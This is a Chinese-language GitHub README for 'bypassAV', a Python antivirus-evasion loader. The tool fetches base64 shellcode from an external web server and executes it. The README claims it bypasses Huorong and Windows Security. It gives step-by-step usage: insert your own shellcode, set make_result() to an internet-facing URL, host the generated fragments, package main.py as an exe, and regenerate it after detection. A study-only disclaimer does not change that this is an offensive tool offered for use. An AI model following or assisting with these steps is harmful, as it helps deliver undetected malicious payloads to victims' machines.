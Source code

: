 -----

# ！！！声明！！！

本程序仅供于学习交流，请使用者遵守《中华人民共和国网络安全法》，勿将此脚本用于非授权的测试，脚本开发者不负任何连带法律责任。



### 0x01 What is？

> 作用：`python` 免杀 采用外部加载的方式加载 `loader` 和 `shellcode`
>
> 运行环境:  **`Python3`** **`Windows`** 其他环境没测试不清楚
>
> 亲测可过 `火绒` `window安全中心` 其他的自己测试，各大沙箱平台效果也还不错
>
> 默认的 `loader` 只能支持64位的 `shellcode`
>
> 懂代码的 可以自己修改对应的 `loader`

### 0x02 Install

```bash
# 克隆本仓库
git clone https://github.com/rexSurprise/bypassAV.git
# 创建一个虚拟环境
cd bypassAV
python -m venv venv
# 激活虚拟环境
venv\Script\active
# 安装依赖
pip install -r requirements.txt
```

### 0x03 Using

```bash
# 1. 到template目录下找到loader.txt 换成自己生成的Shellcode [base64版本]
# 激活虚拟环境
venv\Script\active
# 2.打开make.py最后一行，把url变成你一个对外的web服务
make_result('http://127.0.0.1:8899')
# 3. make.py 116行 就是默认启动本地一个 python web服务 需要自己开启
# os.system('cd %s && python -m http.server %s' % (k8, '8899'))
# 运行脚本
python make.py
# 会生成一个随机文件夹，里面的main.py就是你要的，其他的 .0 .1 .2 就是需要对外的web文件
# 最好是将main.py打包成exe 
# 怎么打包自己研究
# 里面的变量都是随机的，每次被杀了 重新make一份就好了
```
